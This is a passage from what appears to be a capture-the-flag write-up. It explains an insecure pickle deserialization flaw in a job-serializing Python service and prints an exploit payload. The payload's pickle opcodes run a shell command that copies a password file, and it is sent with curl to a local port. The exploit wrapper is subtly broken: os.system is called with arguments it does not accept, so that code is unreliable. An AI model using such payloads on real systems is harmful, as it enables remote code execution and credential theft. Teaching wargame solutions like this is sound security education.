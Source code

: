 After inspecting the code, we concentrate in the suspicious **deserialize** function that contains the unsafe module [pickle](https://docs.python.org/2/library/pickle.html):

```py
def deserialize(serialized):
 logger.debug('Deserializing: %r' % serialized)
 parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
 match = parser.match(serialized)
 direction = match.group(1)
 data = match.group(2)
 job = pickle.loads(match.group(3))
 return direction, data, job
```

This is used later in the **serialize** function:

```py
@staticmethod
def serialize(direction, data, job):
 serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
 logger.debug('Serialized to: %r' % serialized)
 return serialized
```

So, the program serializes jobs with pickle and sends them to a series of workers to deserialize and process the job. Once again, the attack surface is in the user input, which is not properly sanitized: this function allows arbitrary data to be sent to **; job**.

We can exploit it by making the serialization code execute arbitrary commands by supplying a string such as **; job: <pickled>**. This will run some Python code that will give us the password when unpickled. A great module for this task is [Python's os.system](https://docs.python.org/2/library/os.html#os.system), which executes commands in a subshell.



An example of exploit in Python is the following:

```py
import pickle, os
HOST = 'localhost:9020'

os.system("/usr/bin/curl", ['', HOST, '-d', \
 "bla; job: cos\nsystem\n(S'cat /home/level05/.password \
 > /tmp/pass'\ntR."], {})
```





---
## Level 6: Timing Attack


And we have reached the sixth level!

The goal in this level is to read the password from */home/the-flag/.password*. To complete this challenge, another **setuid** binary is given, which can be used to guess the password:
